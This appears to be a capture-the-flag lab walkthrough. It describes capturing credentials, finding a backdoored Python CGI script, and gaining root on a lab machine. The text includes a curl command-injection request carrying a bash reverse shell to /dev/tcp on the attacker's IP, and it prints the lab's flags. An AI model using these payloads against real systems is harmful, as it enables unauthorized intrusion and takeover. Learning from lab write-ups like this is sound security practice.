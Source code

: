 Project Goal
The goal of this project was to investigate a vulnerable CGI server within a local network, identify a remote command execution (RCE) vulnerability, and gain control over the system through a reverse shell. The final objective was to escalate privileges and capture the root flag.

Execution Steps
1. Traffic Analysis
First, I launched Netcat on my machine (IP 10.10.189.64) to monitor incoming data:

nc -lvnp 9000
Shortly after, I received a POST request containing credentials:

jack:WhyIsMyPasswordSoStrongIDK
2.SSH Access
I then established an SSH connection to the target machine (10.10.131.187) as the user jack:

ssh jack@10.10.131.187

On the target system, I retrieved the user flag:

cat ~/user.txt
1ca4eb201787acbfcf9e70fca87b866a
3. Discovering the CGI Backdoor
I noticed an active service on port 41312:

ss -tulnp
It was serving a CGI script at /cgi-bin/5UP3r53Cr37.py and accepted the parameters key, iv, and cmd.


curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=id"
4.  Gaining Root Shell Access
To initiate a reverse shell, I set up a Netcat listener on my machine:

nc -lvnp 4444
Then, I triggered the reverse shell from the target:

curl -k "https://127.0.0.1:41312/cgi-bin/5UP3r53Cr37.py?key=48pfPHUrj4pmHzrC&iv=VZukhsCo8TlTXORN&cmd=sh%20-c%20'sh%20-i%20>%26%20/dev/tcp/10.10.189.64/4444%200>%261'"
I successfully received a root shell on my machine 

5. Capturing the Root Flag
Once I had root-level access, I located and read the root flag:

cat /root/root.txt
4dbe2259ae53846441cc2479b5475c72

Conclusion

I conducted a complete penetration test of a remote server, identifying and exploiting an RCE vulnerability via an insecure CGI script. Using extracted credentials and traffic analysis, I gained full root access and successfully captured the root flag.

The main attack vector was a vulnerable Python CGI script that executed unsanitized commands directly in the system shell.
